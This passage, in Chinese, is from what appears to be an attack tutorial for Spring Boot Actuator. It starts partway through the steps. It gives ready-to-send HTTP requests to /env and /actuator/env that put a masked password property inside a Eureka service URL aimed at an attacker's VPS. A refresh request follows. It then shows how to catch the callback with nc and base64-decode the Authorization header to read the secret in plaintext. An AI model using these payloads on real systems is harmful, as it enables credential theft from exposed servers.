 `your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}


```

##### 步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json



```

##### 步骤五：解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2


```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。
